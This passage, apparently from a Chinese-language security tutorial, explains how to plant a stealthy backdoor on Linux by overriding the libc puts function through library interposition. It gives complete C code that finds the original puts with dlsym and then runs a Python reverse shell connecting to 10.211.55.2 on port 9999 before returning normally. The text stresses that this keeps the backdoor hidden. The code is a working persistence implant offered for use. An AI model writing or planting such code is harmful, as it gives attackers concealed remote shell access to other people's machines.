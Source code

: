 [![](assets/1708920000-7e097bf7640a96378ab6b5b1ef2261f0.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214152619832.png)

如果完全使用恶意语句接管 puts 函数可能会对正常运行的应用造成影响

通过库打桩的方式进行拦截 (interposition) 可以更加隐蔽并且不影响正常业务

整体逻辑如下：

-   覆盖 puts 函数并在内部重写
-   把原函数指针赋值给一个变量
-   执行后门代码
-   执行原函数
-   正常返回值

```bash
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
  system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.211.55.2\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");
  result = new_puts(message);
  return result;
}
```
